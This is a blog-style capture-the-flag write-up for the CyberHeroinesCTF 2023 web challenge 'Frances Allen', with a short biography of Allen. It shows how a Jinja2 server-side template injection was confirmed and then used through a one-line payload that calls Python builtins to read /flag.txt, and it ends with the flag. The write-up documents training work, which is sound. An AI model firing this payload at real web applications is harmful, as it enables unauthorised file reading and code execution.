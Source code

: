 ```yaml
---
title: CyberHeroinesCTF 2023 - Frances Allen
date: Sun Sep 10 11:04:05 PM +04 2023
categories: [Writeup]
tags: [ctf,cyberheroinesctf,cyberheroinesctf2023,web,ssti]
---
```


## Frances Elizabeth Allen

[Frances Elizabeth Allen](https://en.wikipedia.org/wiki/Frances_Allen)  (August 4, 1932 – August 4, 2020) was an American computer scientist and pioneer in the field of optimizing compilers. Allen was the first woman to become an IBM Fellow, and in 2006 became the first woman to win the Turing Award. Her achievements include seminal work in compilers, program optimization, and parallelization. She worked for IBM from 1957 to 2002 and subsequently was a Fellow Emerita. -  [Wikipedia Entry](https://en.wikipedia.org/wiki/Frances_Allen)

## Description

Chal: Build your best attack against this  [webapp](https://cyberheroines-web-srv5.chals.io/)  and inspire  [the first woman to win the Turing Award](https://www.youtube.com/watch?v=NjoU-MjCws4)

Alternate (Better) Link:  [Webapp](http://ec2-3-144-228-78.us-east-2.compute.amazonaws.com:6266/)

Author:  [TJ](https://www.tjoconnor.org/)

## Solution

![Frances-Allen-1](/assets/images/CyberHeroinesCTF/2023/Frances-Allen-1.png)

Application let's us _Nominate A Cyber Heroine_. 2 things quickly came to my mind: 1. SSTI and 2. Python Application.

![Frances-Allen-2](/assets/images/CyberHeroinesCTF/2023/Frances-Allen-2.png)

![Frances-Allen-3](/assets/images/CyberHeroinesCTF/2023/Frances-Allen-3.png)

[Wappalyzer](https://www.wappalyzer.com) confirms that application runs on Python, SSTI is confirmed by using {% raw %} `{{config}}` {% endraw %} (Jinja2 syntax)

Time to visit good old HackTricks: <https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti>

Using RCE file read payload let's try to read flag file.

{% raw %}
`{{ request.__class__._load_form_data.__globals__.__builtins__.open("/flag.txt").read()  }}`
{% endraw %}

`Nomination received for: Test with bio:chctf{th3re_W4s_n3v3r_a_d0ubt_th4t_1t_w4s_1mp0rt4nt}`

> Flag: chctf{th3re_W4s_n3v3r_a_d0ubt_th4t_1t_w4s_1mp0rt4nt}
{: .prompt-tip }